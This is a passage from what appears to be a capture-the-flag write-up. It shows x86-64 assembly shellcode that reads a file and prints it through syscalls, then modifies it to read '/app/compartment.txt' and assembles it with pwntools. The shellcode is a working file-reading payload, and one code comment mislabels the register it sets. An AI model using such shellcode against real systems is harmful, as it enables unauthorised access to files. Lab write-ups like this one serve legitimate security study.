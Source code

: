 ```asm [shellcode.s]
mov rdx, 100 ; sets max bytes that can be read
mov rax, 0 ; setting rax to the syscall number for read
syscall ; rax now holds the number of bytes read

; --- 4. Syscall: write(1, rsp, bytes_read) ---
mov rdx, rax ; setting rdx to bytes_read
mov rdi, 1 ; STDOUT file descriptor

mov rsi, rsp ; rsi is the buffer with data
mov rax, 1 ; rax holds the syscall number for write
syscall

; --- 5. Syscall: exit(0) ---
mov rdi, 0 ; exit status
mov rax, 60 ; setting rax to the syscall number for exit
syscall
```

However, recall that we need to print `app/compartment.txt`, not `/flag.txt`. Therefore, we need to modify the shellcode to read that instead.

```asm [modified shellcode.s]
; --- 1. Construct String: "/app/compartment.txt" ---
mov rbx, 0x000000007478742e ; .txt\x00
push rbx

mov rbx, 0x746e656d74726170 ; partment
push rbx

mov rbx, 0x6d6f632f7070612f ; /app/com
push rbx

mov rsi, rsp ; rdi now points to the string
```

::ProseAlert
The string is added in 8-byte chunks in reverse order because the stack grows downwards.
::

In `pwntools`, we can assemble the shellcode into sendable bytes using `asm`:

```py [solve.py]
custom_assembly="""
.global _start

_start:
.intel_syntax noprefix

mov rbx, 0x000000007478742e
push rbx
...
"""
shellcode = asm(custom_assembly)
```
